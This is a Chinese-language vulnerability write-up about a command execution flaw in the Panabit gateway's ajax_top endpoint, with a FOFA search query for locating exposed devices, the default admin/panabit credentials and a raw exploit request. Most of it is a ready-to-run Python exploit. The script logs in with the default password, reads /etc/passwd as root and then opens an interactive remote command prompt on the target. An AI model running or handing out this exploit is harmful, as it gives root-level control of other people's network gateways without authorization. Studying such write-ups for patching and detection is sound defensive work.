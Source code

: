 # Panabit 智能应用网关 ajax_top 后台命令执行漏洞

## 漏洞描述

Panabit 智能应用网关 ajax_top 后台存在命令执行漏洞，攻击者可以以root权限运行部分危险命令

## 漏洞影响

> [!NOTE]
>
> Panabit 智能应用网关 

## FOFA

> [!NOTE]
>
> cert="panabit.com" && body="/login/login.js"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/pa-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

默认账号密码为：**admin/panabit**

出现漏洞的文件为 **/cgi-bin/Maintain/ajax_top**， 请求包如下

```
POST /cgi-bin/Maintain/ajax_top?action=runcmd&cmd=ls HTTP/1.1
Host: 
Connection: close
Content-Length: 0
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Cache-Control: no-cache
Accept-Language: zh-CN,zh;q=0.8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/html; charset=GB2312
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Cookie: pauser_1618744108=paonline_admin_9328_16197064781_c4229a3a492c76e334f57728abced88b|443|;
```

![](http://wikioss.peiqi.tech/vuln/pa-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : Panabit 智能应用网关 ajax_top 后台命令执行漏洞                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login/userverify.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "action=user_login&palang=ch&username=admin&password=722289d072731e2cc73038aa9ad9e067&code="
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers,data=data, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/login/userverify.cgi.... \033[0m".format(target_url))
        if "Auth_OK" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在默认口令 admin/panabit \033[0m".format(target_url))
            cookie = response.headers['Set-Cookie']
            print("\033[36m[o] 获取Cookie : {} \033[0m".format(cookie))
            POC_2(target_url, cookie)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/cgi-bin/Maintain/ajax_top?action=runcmd&cmd=cat /etc/passwd"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "{}".format(Cookie)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        if 'root' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_3(target_url, Cmd, Cookie)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cmd, Cookie):
    vuln_url = target_url + "/cgi-bin/Maintain/ajax_top?action=runcmd&cmd={}".format(Cmd)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "{}".format(Cookie)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url ,headers=headers, verify=False, timeout=5)
        response_data = response.text.replace("<br/>", "\n")
        print("\033[36m[o] 响应为:\n{} \033[0m".format(response_data))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/pa-10.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)